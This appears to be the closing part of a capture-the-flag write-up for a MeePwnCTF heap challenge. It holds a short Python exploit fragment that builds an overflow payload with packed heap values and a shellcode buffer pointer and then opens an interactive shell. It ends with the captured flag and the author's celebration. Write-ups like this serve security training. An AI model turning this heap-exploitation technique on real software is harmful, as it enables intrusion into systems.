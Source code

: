 ```python
    payload = "i"*0x40
    payload += p64(0) + p64(sc_buf) + p64(0x100) + p64(100) + p64(0x1000) + p64(0x111)
    cmd(payload)
    r.interactive()

```

flag: `MeePwnCTF{My_M33pwn_h34p_1s_fun?}`

Got both first blood on these challenges ! WOOHOO ! 😎🤘